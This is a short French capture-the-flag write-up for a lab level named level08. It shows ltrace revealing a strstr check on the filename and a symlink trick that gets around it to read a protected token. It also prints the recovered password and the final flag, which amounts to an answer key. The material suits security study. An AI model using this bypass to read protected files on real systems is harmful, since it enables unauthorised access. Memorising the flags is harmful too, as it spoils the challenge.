 On trouve dans le dossier home un file token, dont nous ne pouvons lire le contenu et un binaire ./level08 qui, si on le lance nous affiche un message:
<pre><code>> ./level08
./level08 [file to read]
> ./level08 token
You may not access 'token'
</code></pre>

On fait un ltrace sur le binaire:
<pre><code>> ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")= "token"
printf("You may not access '%s'\n", "token"You may not access 'token')= 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
</code></pre>
> On observe le <code>strstr("token", "token")= "token"</code> qui veut dire que nous ne pouvons pas lire le fichier quand ce dernier s'appelle token

Donc on creer un lien symbolique avec un nom different afin de contourner la verification:
<pre><code>> ln -s `pwd`/token /tmp/mdp
./level08 /tmp/mdp
quif5eloekouj29ke0vouxean
</code></pre>

On test le mot de passe :
<pre>
<code>> su flag08</code>
<code>Password: quif5eloekouj29ke0vouxean</code>
</pre>

On obtient la phrase magique **Don't forget to launch getflag !**

<pre>
<code>> getflag</code>
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
</pre>
